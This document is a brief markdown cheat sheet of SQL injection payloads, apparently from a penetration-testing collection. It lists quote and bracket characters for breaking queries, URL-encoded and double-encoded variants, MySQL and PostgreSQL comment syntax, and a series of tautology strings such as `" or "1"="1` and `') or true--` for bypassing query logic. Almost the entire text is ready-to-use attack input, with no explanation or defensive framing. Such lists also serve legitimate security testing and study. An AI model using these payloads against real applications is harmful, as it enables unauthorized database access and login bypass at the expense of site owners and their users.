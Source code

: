 # Query Break

```sql
 [Nothing]
'
%27
"
%22
#
%23
;
%3B
)
`
')
")
`)
'))
"))
`))
Wildcard (*)
&apos;  # required for XML content
```


- **`Multiple encoding`**
```sql
%%2727
%25%27
```




# Query Join

- MySQL

```mysql
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
```
- PostgreSQL
```sql
--comment
/*comment*/
```

- more ways to break

```sql
' -- -
'--'
"--"
') or true--
" or "1"="1
" or "1"="1"#
" or "1"="1"/*
"or 1=1 or ""="
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"#
") or ("1"="1"/*
") or "1"="1
") or "1"="1"--
") or "1"="1"#
") or "1"="1"/*
```

